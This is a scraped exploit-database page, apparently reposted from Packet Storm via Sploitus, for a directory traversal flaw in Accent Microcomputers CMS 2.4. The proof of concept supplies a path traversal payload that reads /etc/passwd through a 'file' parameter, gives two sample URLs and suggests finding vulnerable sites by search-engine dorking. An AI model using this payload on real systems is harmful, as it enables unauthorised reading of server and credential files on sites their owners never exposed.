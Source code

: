 ```yaml
---
title: Accent Microcomputers CMS 2.4 Directory Traversal exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173051&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-22
fetch_date: 2025-10-04T11:45:21.030338
---
```


# Accent Microcomputers CMS 2.4 Directory Traversal exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Accent Microcomputers CMS 2.4 Directory Traversal

2023-06-21 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173051
====================================================================================================================================
| # Title : Accent Microcomputers CMS v 2.4 Directory Traversal Vulnerability |
| # Author : indoushka |
| # Telegram : @indoushka |
| # Tested on : windows 10 Français V.(Pro) |
| # Vendor : http://www.accent.com.pl |
| # Dork : n/a |
====================================================================================================================================

poc :

[+] Dorking İn Google Or Other Search Enggine

[+] use payload : ../../../../../../../../../etc/passwd

http://127.0.0.1/www/mmrtradingpl/index.php?id=50&file=../../../../../../../../../etc/passwd

http://127.0.0.1/www/transcomfortpl/index.php?id=50&file=../../../../../../../../../etc/passwd

=====Greetings to :=========================================================================================================================
| jericho * Larry W. Cashdollar * brutelogic* hyp3rlinx* 9aylas * djroot.dz * LiquidWorm* Hussin-X *D4NB4R * shadow_00715 * yasMouh |
============================================================================================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)